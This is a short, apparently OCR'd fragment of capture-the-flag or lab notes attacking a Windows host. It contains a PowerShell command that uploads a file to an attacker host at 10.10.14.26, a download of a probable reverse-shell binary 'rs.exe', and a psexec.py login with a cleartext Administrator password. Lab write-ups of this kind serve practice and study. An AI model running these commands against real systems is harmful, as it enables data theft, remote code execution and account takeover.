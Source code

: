 Invoke-WebRequest -uri http://10.10.14.26:8000/upload -Method Post -Infile wp-out -ContentType 'text/plain'

C:\Users\Public>echo %TEMP% 
echo %TEMP%
C:\Windows\TEMP

C:\Users\Public>echo 'test' > %TEMP%\test
echo 'test' > %TEMP%\test

C:\Users\Public>type %TEMP%\test
type %TEMP%\test
'test'

psexec.py 'Administrator:!R3m0te!@10.10.10.180'

Invoke-RestMethod -uri http://10.10.14.26:8000/rs.exe -OutFile rs.exe